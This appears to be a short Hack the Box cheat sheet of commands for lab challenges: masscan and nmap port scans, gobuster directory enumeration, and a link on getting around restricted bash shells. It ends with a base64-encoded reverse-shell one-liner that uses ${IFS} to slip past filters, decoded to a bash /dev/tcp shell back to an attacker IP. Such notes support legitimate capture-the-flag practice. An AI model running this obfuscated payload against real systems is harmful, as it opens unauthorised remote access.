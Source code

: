 ## Hack the Box Reference.<br>
Contains commands,Link and tricks for challenges<br>
gzip<br>
gzip -d file.gz<br>

masscan probe to establish the open ports in the host.<br>
#masscan -e tun0 -p1-65535,U:1-65535 10.10.10.101 --rate=700<br>

##nmap scanning the discovered ports to see what are the services.##<br>
#nmap -sV -v -O -sS -T5 {target}<br>

##Gobuster Dir enumeration##<br>
```gobuster -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 20 -e -x php,htm,html,txt -u http://target```<br>

##bypass-bash-restrictions##<br>
https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions<br>

##Bypass shell restriction using {IFS} and Base 64 encoding 

```echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45NC85MDA3IDA+JjE|base64${IFS}-d|bash${IFS}-;```<br>
it means the highlighted part below is base64 encoded to bypass shell restriction<br>
echo${IFS}**bash -i >& /dev/tcp/10.10.14.94/9007 0>&1**|base64${IFS}-d|bash${IFS}-;<br>
